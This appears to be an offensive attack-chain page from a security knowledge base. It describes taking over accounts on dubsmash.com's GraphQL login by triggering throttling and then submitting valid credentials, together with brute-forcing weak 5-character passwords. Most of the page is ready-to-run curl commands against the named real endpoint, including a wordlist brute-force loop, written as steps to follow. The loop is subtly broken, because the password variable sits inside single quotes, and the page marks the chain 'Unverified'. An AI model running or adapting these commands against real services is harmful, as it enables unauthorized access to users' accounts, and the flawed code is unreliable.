

# Account Takeover via Rate Limit Bypass on GraphQL Login and Weak Password Policy

Multi-stage attack chain demonstrating a complete attack workflow exploiting a flawed rate limiting mechanism on a GraphQL login endpoint, allowing brute-force attempts to bypass throttling when valid credentials are submitted, combined with a weak password policy that only requires 5 characters without complexity rules.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform with GraphQL API
- Access to login endpoint at https://target.com/login
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Network access to the target web application
- Valid target username (e.g., email)
- No prior credentials needed, but weak password knowledge or guessability assumed

## Detailed Attack Procedures

### Step 1: Trigger Rate Limiting with Failed Logins
procedure: [[procedures/Trigger-Rate-Limiting-on-GraphQL-Login]]

**Objective**: Send incorrect login attempts to activate the server's rate limiting mechanism without enforcing it properly.

**Instructions**: Intercept the login request using [[tools/Burp-Suite]] and modify credentials to invalid values. Submit a POST request to the GraphQL endpoint with a LogInUserMutation containing wrong username and password.

Example using Burp Repeater or equivalent curl for simulation:

```bash
curl -X POST https://dubsmash.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"mutation LogInUser($input: LogInUserInput!) { logInUser(input: $input) { ... on LogInUserSuccess { token } } }","variables":{"input":{"email":"wrongcredentials@gmail.com","password":"password","client_id":"client_id","client_secret":"client_secret"}}}' -c cookies.txt
```

**Expected Output**: Initial 200 OK responses turning into 429 throttle errors after multiple attempts.

**Success Indicators**:
- Server responds with 429 error: "Request was throttled. Expected available in 3000+ seconds"
- Rate limiting is confirmed triggered

### Step 2: Repeat Attempts to Confirm Throttling
procedure: [[procedures/Bypass-Throttle-with-Valid-Credentials]]

**Objective**: Flood the endpoint with failed requests to ensure the throttle is active, setting up the bypass condition.

**Instructions**: Using the same intercepted session in [[tools/Burp-Suite]], repeat the invalid login POST request multiple times until the 429 response is consistently received.

Simulate repetition with a loop in curl:

```bash
for i in {1..10}; do
  curl -X POST https://dubsmash.com/graphql \
    -H "Content-Type: application/json" \
    -d '{"query":"mutation LogInUser($input: LogInUserInput!) { logInUser(input: $input) { ... on LogInUserSuccess { token } } }","variables":{"input":{"email":"wrongcredentials@gmail.com","password":"password","client_id":"client_id","client_secret":"client_secret"}}}' -c cookies.txt
  sleep 0.1
done
```

**Expected Output**: Multiple 429 responses confirming the throttle period (e.g., 3000 seconds wait).

**Success Indicators**:
- Consistent 429 errors received
- Throttle message indicates a long wait period

### Step 3: Bypass Throttle and Gain Access
procedure: [[procedures/Exploit-Weak-Password-Policy-for-Brute-Force]]

**Objective**: Submit valid credentials immediately after throttling to bypass the wait, demonstrating account takeover potential, amplified by brute-forcing weak passwords.

**Instructions**: With the throttle active, switch to valid credentials in the same GraphQL mutation POST request via [[tools/Burp-Suite]] Repeater. For brute force, iterate over common short passwords (5+ chars, no specials).

Example valid login curl (redacted password):

```bash
curl -X POST https://dubsmash.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"mutation LogInUser($input: LogInUserInput!) { logInUser(input: $input) { ... on LogInUserSuccess { token } } }","variables":{"input":{"email":"validuser@gmail.com","password":"validpass","client_id":"client_id","client_secret":"client_secret"}}}' -c cookies.txt -v
```

For brute force simulation, use a wordlist of weak passwords:

```bash
while read pass; do
  curl -X POST https://dubsmash.com/graphql \
    -H "Content-Type: application/json" \
    -d '{"query":"mutation LogInUser($input: LogInUserInput!) { logInUser(input: $input) { ... on LogInUserSuccess { token } } }","variables":{"input":{"email":"target@gmail.com","password":"$pass","client_id":"client_id","client_secret":"client_secret"}}}' -c cookies.txt -s | grep -q "token"
  if [ $? -eq 0 ]; then echo "Success: $pass"; break; fi
done < weak_passwords.txt
```

**Expected Output**: Successful 200 response with access token despite active throttle.

**Success Indicators**:
- Access token received in response
- Redirect or session established post-login
- Account dashboard accessible

## Attack Chain Summary

### Key Achievements

1. Confirmed rate limiting flaw allowing immediate valid login post-throttle
2. Demonstrated brute-force feasibility due to 5-char minimum passwords without complexity
3. Achieved full account takeover without waiting the enforced period

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Brute Force]] Brute Force
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Credential Access]] Credential Access
- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
